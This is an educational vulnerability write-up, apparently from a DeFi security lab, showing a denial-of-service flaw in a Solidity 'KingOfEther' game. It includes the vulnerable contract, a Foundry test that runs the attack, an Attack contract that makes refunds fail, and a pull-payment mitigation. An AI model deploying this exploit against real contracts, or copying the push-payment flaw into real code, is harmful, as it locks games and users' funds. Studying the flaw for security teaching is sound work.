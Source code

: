 # DOS 
[DOS.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/DOS.sol)   
**Name:** Denial of Service

**Description:**  
The KingOfEther contract holds a game where a user can claim the throne by sending more Ether than the current balance.
The contract attempts to return the previous balance to the last "king" when a new user sends more Ether. 

However, this mechanism can be exploited. An attacker's contract (here, the Attack contract) can become the king and then make the fallback function revert or consume more than the stipulated gas limit, causing the claimThrone function to fail whenever the KingOfEther contract tries to return Ether to the last king.

**Mitigation:**  
Use a Pull payment pattern, A way to prevent this is to enable users to withdraw their Ether, instead of sending it to them.

**REF:**

https://slowmist.medium.com/intro-to-smart-contract-security-audit-dos-e23e9e901e26

 **KingOfEther Contract:**  
 ```
 contract KingOfEther {
    address public king;
    uint public balance;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        (bool sent, ) = king.call{value: balance}("");
        require(sent, "Failed to send Ether");

        balance = msg.value;
        king = msg.sender;
    }
}
```
**How to Test:**

forge test --contracts src/test/**DOS.sol** -vvvv  
```
// This function tests a Denial of Service (DoS) attack scenario.
function testDOS() public {
    // 'alice' and 'bob' are assigned address values from the Ethereum virtual machine.
    address alice = vm.addr(1);
    address bob = vm.addr(2);

    // Alice and Bob are dealt 4 ether and 2 ether respectively.
    vm.deal(address(alice), 4 ether);
    vm.deal(address(bob), 2 ether);

    // Some prank function is called with Alice's address.
    vm.prank(alice);

    // Alice tries to claim the throne of the KingOfEtherContract by sending 1 ether.
    KingOfEtherContract.claimThrone{value: 1 ether}();

    // The prank function is called again, this time with Bob's address.
    vm.prank(bob);

    // Bob tries to claim the throne by sending 2 ether.
    KingOfEtherContract.claimThrone{value: 2 ether}();

    // The balance of Alice is logged after returning 1 ether to Alice.
    console.log("Return 1 ETH to Alice, Alice of balance", address(alice).balance);

    // The Attack contract is invoked, attacking the KingOfEtherContract with 3 ether.
    AttackerContract.attack{value: 3 ether}();

    // The balance of the KingOfEtherContract is logged.
    console.log("Balance of KingOfEtherContract", KingOfEtherContract.balance());

    // A message is logged indicating the attack is complete and Alice will fail to claim the throne again.
    console.log("Attack completed, Alice claimthrone again, she will fail");

    // The prank function is called again with Alice's address and the process expects a revert.
    vm.prank(alice);
    vm.expectRevert("Failed to send Ether");

    // Alice tries to claim the throne again, which will fail because of the DoS attack.
    KingOfEtherContract.claimThrone{value: 4 ether}();
}

// The Attack contract that initiates the DoS attack on the KingOfEther contract.
contract Attack {
    KingOfEther kingOfEther;

    // Constructor that initializes the KingOfEther contract.
    constructor(KingOfEther _kingOfEther) {
        kingOfEther = KingOfEther(_kingOfEther);
    }

    // The attack function that claims the throne by sending ether to the KingOfEther contract.
    function attack() public payable {
        kingOfEther.claimThrone{value: msg.value}();
    }
}
```
Red box: no one can win the game after exploiting.  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F250bdebe-a8ed-459a-b62f-bcf5c992c156%2FUntitled.png?table=block&id=17d7c11c-3273-49da-95a4-d6ba9817ad4b&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)


